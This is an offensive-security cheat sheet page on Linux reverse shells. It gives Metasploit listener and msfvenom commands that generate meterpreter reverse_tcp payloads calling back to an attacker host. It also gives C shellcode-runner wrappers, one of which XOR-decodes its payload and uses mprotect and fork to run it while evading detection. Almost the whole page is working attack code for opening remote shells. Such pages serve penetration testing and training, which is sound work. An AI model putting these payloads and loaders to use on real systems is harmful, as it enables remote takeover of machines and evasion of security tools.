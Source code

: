 # Shells

### Basic Linux Reverse Shell

Configure Listener

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 192.168.X.Y; set LPORT 443; exploit -j"
```

* Configure a payload

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LPORT=443 LHOST=192.168.X.Y -f c
```

* Create a wrapper called hack.c

{% code title="hack.c" %}
```c
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  

// msfvenom -p linux/x64/meterpreter/reverse_tcp LPORT=443 LHOST=192.168.X.Y -f c  
unsigned char buf[] ="\x48\x31"  
  
int main (int argc, char **argv)  
{  
 // Run our shellcode  
 int (*ret)() = (int(*)())buf;  
 ret();  
}
```
{% endcode %}

Compile the code with gcc

```
gcc -o hack.out hack.c -z execstack
```

### Encrypted Linux Reverse Shell

{% code title="encrypted_xor.c" %}
```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

// compile with - gcc -o final.out encrypted_xor.c -z execstack
// msfvenom -p linux/x64/meterpreter/reverse_tcp LPORT=443 LHOST=192.168.X.Y -f c   -encrypt xor -encrypt-key J

unsigned char buf[] = "\x02\x7b\xb5\x20\x43\x12\xd3....";

int main(int argc, char** argv)
{
    if (fork() == 0)
    {
    char xor_key = 'J';
	int arraysize = (int)sizeof(buf);
	for (int i = 0; i < arraysize - 1; i++)
	{
		buf[i] = buf[i] ^ xor_key;
	}

    intptr_t pagesize = sysconf(_SC_PAGESIZE);
    if (mprotect((void*)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ | PROT_EXEC))
		{
            perror("mprotect");
            return -1;
        }
    int (*ret)() = (int(*)())buf;
    ret();
    }
    else
    {
        printf("done");
    }
    return 3;
}

```
{% endcode %}
